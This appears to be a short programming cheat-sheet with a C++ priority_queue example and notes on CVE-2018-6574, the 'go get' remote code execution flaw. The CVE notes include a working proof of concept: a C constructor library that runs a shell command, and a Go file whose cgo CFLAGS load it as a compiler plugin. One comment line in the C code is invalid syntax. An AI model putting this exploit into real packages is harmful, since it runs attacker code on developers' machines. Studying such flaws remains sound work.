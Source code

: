 
### PRIORITY QUEUE
```
priority_queue<int> pq;
priority_queue<pair<int, string>> pq;
pq.push(123);
pq.push(321);
cout << pq.top()                             --> 321 (values automatically sorted in pq, thus biggest element is print out first 
pq.pop()                                     --> removes top-element 

pq.push(pair<int, string>(555, "Hallo"));
cout << pq.top().first << ":" << pq.top().second    --> 555 : Hallo
```


### CVE-2018-6574: go get RCE
- attack.c
```
#include<stdio.h>
#include<stdlib.h>

#This particular GCC syntax, when used with a function, executes the same function at the startup of the program, i.e before main() function
static void malicious() __attribute__((constructor));

void malicious() {
    system("touch /tmp/owned");
}
```
- make attack.so
- `gcc -shared -o attack.so -fPIC attack.c`
- create main.go
```
package main
// #cgo CFLAGS: -fplugin=./attack.so
// typedef int (*intFunc) ();
//
// int
// bridge_int_func(intFunc f)
// {
//      return f();
// }
//
// int fortytwo()
// {
//      return 42;
// }
import "C"
import "fmt"

func main() {
    f := C.intFunc(C.fortytwo)
    fmt.Println(int(C.bridge_int_func(f)))
    // Output: 42
}
```
